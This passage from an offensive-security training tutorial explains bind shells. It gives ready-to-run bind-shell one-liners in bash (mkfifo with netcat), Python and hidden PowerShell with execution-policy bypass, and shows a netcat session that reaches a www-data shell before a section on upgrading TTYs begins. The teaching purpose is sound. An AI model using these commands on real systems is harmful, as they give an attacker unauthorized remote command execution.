 As we can see, after we received a connection on our `netcat` listener, we were able to type our command and directly get its output back, right in our machine.



### Bind Shell

Another type of shell is a `Bind Shell`. Unlike a `Reverse Shell` that connects to us, we will have to connect to it on the `targets'` listening port.

Once we execute a `Bind Shell Command`, it will start listening on a port on the remote host and bind that host's shell, i.e., `Bash` or `PowerShell`, to that port. We have to connect to that port with `netcat`, and we will get control through a shell on that system.

Note: we will start a listening connection on port '1234' on the remote host, with IP '0.0.0.0' so that we can connect to it from anywhere.

The following are reliable commands we can use to start a bind shell:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

We can use `netcat` to connect to that port and get a connection to the shell:

```shell-session
TomasFerreira@htb[/htb]$ nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Unlike a `Reverse Shell`, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.

\
**Upgrading TTY**

Once we connect to a shell through Netcat, we will notice that we can only type commands or backspace, but we cannot move the text cursor left or right to edit our commands, nor can we go up and down to access the command history. To be able to do that, we will need to upgrade our TTY. This can be achieved by mapping our terminal TTY with the remote TTY.

